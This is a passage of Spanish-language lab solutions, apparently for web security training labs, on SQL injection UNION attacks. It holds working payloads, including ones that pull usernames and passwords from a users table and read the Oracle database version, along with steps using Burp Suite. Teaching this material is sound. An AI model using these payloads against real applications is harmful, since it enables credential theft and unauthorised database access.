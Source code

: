 ``'+UNION+SELECT+'abc','def'--. 

3. Utilice la siguiente carga útil para recuperar el contenido de la tabla de usuarios: 

`` '+UNION+SELECT+username,+password+FROM+users-- 

4. Verifique que la respuesta de la aplicación contenga nombres de usuario y contraseñas.


## SQL injection UNION attack, recuperar múltiples valores en una sola columna

#### Solución Rápida:

La consulta original devuelve dos columnas, pero solo una contiene texto. Se pueden recuperar varios valores juntos, incluyendo un separador adecuado para distinguirlos. La carga útil de este laboratorio es la siguiente: 

``' UNION SELECT username || ' ' || password FROM users--

#### Solución Larga:

1. Use Burp Suite para interceptar y modificar la solicitud que establece el filtro de categoría de producto. 

2. Determine el número de columnas que devuelve la consulta y cuáles contienen datos de texto. Verifique que la consulta devuelva dos columnas, de las cuales solo una contenga texto, utilizando una carga útil como la siguiente en el parámetro ``category``: 

``'+UNION+SELECT+NULL,'abc'--

3. Utilice la siguiente carga útil para recuperar el contenido de la tabla de usuarios: 

``'+UNION+SELECT+NULL,username||'~'||password+FROM+users-- 

4. Verifique que la respuesta de la aplicación contenga nombres de usuario y contraseñas.

## SQLI attack, Consultar el tipo y la versión de la base de datos en Oracle

#### Solución Rápida:

Tenga en cuenta que en las bases de datos Oracle, cada sentencia ``SELECT`` debe especificar una tabla para seleccionar ``FROM``. Oracle cuenta con una tabla integrada llamada ``dual`` que puede utilizarse para este propósito. Tras obtener el número de columnas y qué columna contiene datos, puede utilizar la hoja de referencia de inyección SQL para descubrir cómo obtener la versión en bases de datos Oracle. La carga útil es la siguiente: 

``'+UNION+SELECT+BANNER,+NULL+FROM+v$version--

#### Solución Larga:

1. Use Burp Suite para interceptar y modificar la solicitud que establece el filtro de categoría de producto. 

2. Determine el número de columnas que devuelve la consulta y cuáles contienen datos de texto. Verifique que la consulta devuelva dos columnas, ambas con texto, utilizando una carga útil como la siguiente en el parámetro de categoría: 
